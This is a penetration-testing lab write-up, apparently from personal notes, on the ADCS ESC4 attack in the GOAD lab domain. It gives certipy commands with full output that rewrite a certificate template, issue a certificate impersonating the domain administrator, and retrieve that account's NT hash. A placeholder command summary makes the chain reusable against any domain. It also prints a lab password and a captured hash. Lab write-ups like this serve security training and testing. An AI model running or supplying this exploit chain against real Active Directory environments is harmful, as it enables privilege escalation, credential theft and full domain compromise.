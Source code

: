 ESC4 exploits certificate templates in Active Directory Certificate Services (ADCS) that grant Full Control permissions, allowing attackers to modify the templates to include fields like subjectAltName (SAN). This enables the attacker to request a certificate for any user, including privileged accounts, by specifying an arbitrary SAN. Combining ESC4 with ESC1, the attacker can use the obtained certificate to impersonate high-privilege users, leading to significant security risks and potential domain compromise.

![[Pasted image 20241006155102.png]]

Saving the template and making it vulnerable to the ESC1 attack:

```bash
garffff@garffff:~/pentest/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying template change:

![[Pasted image 20241006155529.png]]

Certificate request:

```bash
garffff@garffff:~/GOAD/esc3$  certipy req -u khal.drogo@essos.local -p 'horse' -template ESC4 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 36
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Authenticating and retrieving target users NTLMv1 hash:

```bash
garffff@garffff:~/GOAD/esc3$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

Restoring template to its original configuration:

```bash
garffff@garffff:~/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying:

![[Pasted image 20241006155755.png]]

### Summary

```bash
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old -dc-ip <dc_ip>
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain> -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
certipy template -u <user>@<domain> -p '<password>' -template <template> -configuration <template>.json -dc-ip <adcs_ip>
```
